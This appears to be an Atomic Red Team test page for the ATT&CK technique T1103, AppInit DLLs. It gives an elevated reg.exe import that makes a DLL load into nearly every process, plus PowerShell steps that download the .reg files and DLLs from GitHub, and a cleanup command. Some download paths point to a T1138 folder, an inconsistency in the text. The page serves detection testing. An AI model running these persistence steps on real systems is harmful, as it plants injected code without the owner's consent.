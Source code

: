 # T1103 - AppInit DLLs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1103)
<blockquote>Dynamic-link libraries (DLLs) that are specified in the AppInit_DLLs value in the Registry keys <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> or <code>HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows</code> are loaded by user32.dll into every process that loads user32.dll. In practice this is nearly every program, since user32.dll is a very common library. (Citation: Endgame Process Injection July 2017) Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values can be abused to obtain persistence and privilege escalation by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. (Citation: AppInit Registry)

The AppInit DLL functionality is disabled in Windows 8 and later versions when secure boot is enabled. (Citation: AppInit Secure Boot)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install AppInit Shim](#atomic-test-1---install-appinit-shim)


<br/>

## Atomic Test #1 - Install AppInit Shim
AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution, 
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regular as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the 
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| registry_file | Windows Registry File | Path | PathToAtomicsFolder&#92;T1103&#92;src&#92;T1103.reg|
| registry_cleanup_file | Windows Registry File | Path | PathToAtomicsFolder&#92;T1103&#92;src&#92;T1103-cleanup.reg|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe import #{registry_file}
```

#### Cleanup Commands:
```cmd
reg.exe import #{registry_cleanup_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})
##### Check Prereq Commands:
```powershell
if ((Test-Path #{registry_file}) -and (Test-Path #{registry_cleanup_file})) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{registry_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/src/T1103.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1138/src/T1103-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```
##### Description: DLL's must exist in the C:\Tools directory (T1103.dll and T1103x86.dll)
##### Check Prereq Commands:
```powershell
if ((Test-Path c:\Tools\T1103.dll) -and (Test-Path c:\Tools\T1103x86.dll)) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{registry_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1103/bin/T1103.dll" -OutFile C:\Tools\T1103.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1138/bin/T1103x86.dll" -OutFile C:\Tools\T1103x86.dll
```




<br/>
